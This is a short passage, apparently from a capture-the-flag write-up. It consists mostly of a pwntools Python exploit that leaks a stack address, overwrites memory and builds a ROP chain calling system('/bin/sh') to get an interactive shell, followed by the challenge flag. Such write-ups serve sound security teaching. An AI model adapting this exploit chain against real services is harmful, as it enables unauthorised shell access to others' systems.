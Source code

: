 ```python
r.recvuntil('View Message: ')
stack = u64(r.recvline()[:-1] + '\x00'*2) - 0xf0
log.success('stack : {}'.format(hex(stack)))

# Exploit
payload = fix_size_payload + 'A'*24 + p64(stack)
edit(payload)
sh = base + next(libc.search('/bin/sh\x00'))
system = base + libc.symbols['system']
pop_rdi =  base + 0x0000000000021102
payload = p64(pop_rdi) + p64(sh) + p64(system)
edit(payload)

# Return to ROP
r.recvuntil('>>')
r.sendline('6')

r.interactive()
```

FLAG: `bkp{you are a talented and ambitious hacker}`
